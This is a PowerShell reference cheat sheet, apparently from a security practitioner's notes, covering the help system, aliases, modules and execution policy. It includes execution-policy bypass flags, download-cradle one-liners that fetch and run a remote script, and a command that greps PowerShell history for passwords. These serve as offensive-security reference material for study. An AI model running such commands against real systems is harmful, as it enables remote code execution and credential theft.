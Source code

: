 # Help System
`Get-Help Get-Process`
`help Get-Process`
`Update-Help`

`Get-Help remoting`
`Get-Help about_*remot*`

`Get-Command -CommandTyle Cmdlet`

# Basic Constructs

Cmdlets
Function

# Aliases

`Get-Alias -Name ps`
`Get-Alias -Definition Get-Process`

# Execution Policy

* Not a security feature
* Used to avoid accidental script execution
* Can be bypass with:
  * `powershell -executionpolicy bypass .\example.ps1`
  * `powershell -c <cmd>`
  * `powershell -enc`

# Modules

`Import-Module <path_to_module> -verbose`
`Get-Module -ListAvailable`
`Get-Command -Module <module_name>`

# Remote Script execution

* `Invoke-Expression (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
* `iex (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
* `powershell -EncodedCommand <Base64EncodedCommand>`

* Craft Download Cradles: https://github.com/danielbohannon/Invoke-CradleCrafter

# Command History (PSReadline)

```
cat (Get-PSReadlineOption).HistorySavePath | sls password
```
By default, the path is:
```
profile:\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

# Execution Policy

> https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-6

# Collection of Scripts

- https://sid-500.com/downloads/
- Resource: Infosec PowerShell tools, resources, and authors: https://www.peerlyst.com/posts/resource-infosec-powershell-tools-resources-and-authors?utm_source=twitter&utm_medium=social&utm_content=peerlyst_post&utm_campaign=peerlyst_shared_post
- Mayhem scripts: https://gist.github.com/M3T4L5T3F
- Collection of PowerShell network security scripts for system administrators.: https://github.com/thom-s/netsec-ps-scripts

# Resources

- PowerShell Basics for Security Professionals Part 1: https://www.youtube.com/watch?v=B0EsL1j_-qw
